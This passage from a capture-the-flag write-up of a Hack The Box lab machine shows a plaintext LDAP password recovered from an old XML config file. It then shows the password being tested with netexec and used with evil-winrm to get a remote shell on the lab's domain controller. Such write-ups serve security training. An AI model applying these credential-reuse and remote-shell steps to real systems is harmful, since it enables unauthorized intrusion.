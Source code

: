 The first file, `.old-conf.xml` is interesting. It has an LDAP configuration for the raven user including a password:

```
<?xml version="1.0" encoding="UTF-8"?>
<ldap-conf xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
   <server>
      <host>dc01.manager.htb</host>
      <open-port enabled="true">389</open-port>
      <secure-port enabled="false">0</secure-port>
      <search-base>dc=manager,dc=htb</search-base>
      <server-type>microsoft</server-type>
      <access-user>
         <user>raven@manager.htb</user>
         <password>R4v3nBe5tD3veloP3r!123</password>
      </access-user>
      <uid-attribute>cn</uid-attribute>
   </server>
   <search type="full">
      <dir-list>
         <dir>cn=Operator1,CN=users,dc=manager,dc=htb</dir>
      </dir-list>
   </search>
</ldap-conf>

```

### WinRM

The LDAP enumeration showed that raven is in the Remote Management Users group, which means they should be able to WinRM. `netexec` confirms, and that this password works:

```
oxdf@hacky$ netexec winrm manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123'
WINRM       10.10.11.236    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:manager.htb)
WINRM       10.10.11.236    5985   DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 (Pwn3d!)

```

I’m able to connect and get a shell:

```
oxdf@hacky$ evil-winrm -i manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123'

Evil-WinRM shell v3.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Raven\Documents>

```

And grab `user.txt`:
